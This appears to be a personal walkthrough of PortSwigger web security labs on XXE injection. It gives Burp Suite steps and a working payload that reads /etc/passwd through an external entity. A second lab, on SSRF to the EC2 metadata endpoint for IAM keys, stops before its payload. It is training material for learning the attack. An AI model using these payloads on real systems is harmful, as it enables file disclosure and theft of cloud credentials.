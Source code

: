 # Portswigger
## XML eternal entity (XXE) Injection
- In XML `&lt;` and `&gt;` represent the characters `<` and `>`.
### Exploiting XXE using external entities to retrieve files
```bash

#### This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

#### To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Change:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516201115.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516201149.png)

### Exploiting XXE to perform SSRF attacks
```bash

#### This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

#### The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

#### To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Use end-point: http://169.254.169.254/

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Change:

```